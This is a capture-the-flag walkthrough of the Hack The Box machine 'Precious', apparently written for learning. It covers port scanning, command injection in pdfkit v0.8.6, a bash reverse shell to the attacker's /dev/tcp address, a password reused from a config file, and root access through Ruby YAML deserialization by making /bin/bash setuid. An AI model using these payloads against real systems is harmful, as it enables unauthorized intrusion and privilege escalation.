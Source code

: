 <h2>Target: 10.129.78.215	     Precious</h2>

<b>Initial Access:</b><br>
nmap -Pn 10.129.78.215 --min-rate=5000 -p- |grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
Output shows open ports 22 and 80

Enumerate these open ports further with nmap:<br>
nmap -Pn 10.129.78.215 --min-rate=5000 -p 22,80 -sC -sV -oN nmap.precious
 
![image](https://user-images.githubusercontent.com/93153300/204549554-428561a6-ec03-4f1b-800a-3de8c31612b3.png)
 
Visiting port 80 runs into an error because the site redirects to precious.htb.  To fix this, go to the file /etc/hosts and add in: 10.129.78.215 precious.htb  <br>
Visiting http://precious.htb shows:

![image](https://user-images.githubusercontent.com/93153300/204549621-42cbc990-7c65-47c9-be76-ef2e9cf8c798.png)

This page converts a web page to a pdf.  PDF converters are often vulnerable.  Capture the ‘Submit’ request in burp suite.  First, check if the pdf converter will run commands.  At the bottom of the burp suite capture we see a ‘url=’ parameter.  Enter ‘url=;ls’ and see if it runs the command:

![image](https://user-images.githubusercontent.com/93153300/204549659-0f5d031b-c7c3-4c0c-9d64-7691c2eb2160.png)

Burp suite shows a response of ‘You should provide a valid URL!’.  Add a url and test it again: url=http://localhost;ls

![image](https://user-images.githubusercontent.com/93153300/204549708-a0bb2d6d-acfc-4ad7-a59f-539cc4e678d9.png)

This time it works.  The response from burp suite shows ‘Generated by pdfkit v0.8.6’.  Google search ‘pdfkit v0.8.6 exploit’ found CVE 2022-25765.  This exploit says that this pdfkit version is vulnerable to command injection and explains the syntax to use.  Run a proof of concept with ping.  On our local kali run: tcpdump -i tun0 icmp <br>
On the website, precious.htb, submit the payload: http://%20/?user=\`ping -c 4 10.10.14.105\`

It worked, we got back 4 ping requests on our tcpdump.   We will use this to get a reverse shell.  On our local kali open a netcat listener (we will use pwncat because it gives a better shell): pwncat-cs -lp 443 

Change the ping command to a bash reverse shell: http://%20/?user=\`bash -c 'bash -i >& /dev/tcp/10.10.14.105/443 0>&1'\`

Submit the payload.  We have shell as user ruby:

![image](https://user-images.githubusercontent.com/93153300/204549729-a209929b-fe62-4122-822e-4b32c44900eb.png)
___________________________________________________________________________
<b>Lateral Movement</b><br>
Reading file /home/ruby/.bundle/config shows:

![image](https://user-images.githubusercontent.com/93153300/204549765-e5876878-78a6-4afb-976f-b20fd7d6d813.png)

The file shows credentials: username ‘henry’, password ‘Q3c1AqGHtoI0aXAYFH’. <br>
Run command ‘su henry’ → when prompted for the password then enter the password.  

We have shell as user henry.  Get the flag in file /home/henry/user.txt.
________________________________________________________________________________
<b>Privilege Esccalation:</b><br>
Log into user henry via ssh:  ssh henry@precious.htb → when prompted for the password then enter the password.  

Command ‘Sudo -l’ shows:

![image](https://user-images.githubusercontent.com/93153300/204549787-d58f2c0b-fb72-4c51-8821-5fbe8ea30680.png)
 
Reading the file /opt/update_dependencies.rb shows:

![image](https://user-images.githubusercontent.com/93153300/204562617-43f3a036-f00d-4301-946c-0729569b4319.png)

This file calls another file called ‘dependencies.yml’ without a complete path.  Since it is not using a complete path to call the ‘dependencies.yml’ file, we can create our own file called ‘dependencies.yml’ and put inside of it any content we want.   Google search ‘ruby yaml.load exploit’.  We find that yaml.load is vulnerable to a deserialization attack.  

An example exploit can be found at: https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated:

![image](https://user-images.githubusercontent.com/93153300/204563013-2d53b954-4d1e-43a0-b904-1a32349dc475.png)

On the second to last line, change ‘git_set: id’ to ‘git_set: chmod 4755 /bin/bash’.  This will make the file /bin/bash a suid.  Run command: sudo /usr/bin/ruby /opt/update_dependencies.rb <br>
Finally, run the command: /bin/bash -p

We have shell as root. We can get the flag in /root/root.txt.
 

